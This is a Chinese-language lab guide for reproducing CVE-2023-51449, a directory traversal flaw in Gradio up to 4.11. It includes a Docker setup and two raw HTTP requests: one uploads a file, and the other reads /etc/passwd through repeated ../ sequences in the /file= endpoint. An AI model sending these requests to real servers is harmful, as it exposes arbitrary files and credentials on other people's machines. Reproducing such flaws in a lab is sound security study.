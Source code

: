 # Gradio `file` 目录遍历漏洞（CVE-2023-51449）

Gradio 是一个用于创建机器学习模型交互式界面的 Python 库，通过 Gradio，可以快速地为模型构建一个可视化的、易于使用的 Web 界面，无需编写任何前端代码。

Gradio 4.11 及以下版本，在未启用身份验证时如果知道要查找的文件路径，就可以使用公共 URL 访问运行 Gradio 应用程序的机器上的任意文件（例如，如果演示是使用 `share=True` 创建的，或者在 Hugging Face Spaces 上创建的）。

参考链接：

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## 环境启动

执行如下命令启动 Gradio 环境：

```
docker compose up -d
```

启动成功后访问，默认没有身份验证。

```
http://your-ip:7860
```

## 漏洞复现

使用 upload 接口随便上传一段内容，需要获取到一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--


```

![image-20250424134122049](1.png)

得到一个可访问的文件路径后使用 file 接口访问并使用目录遍历读取文件，即可成功读取。

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```

![image-20250424134351720](2.png)

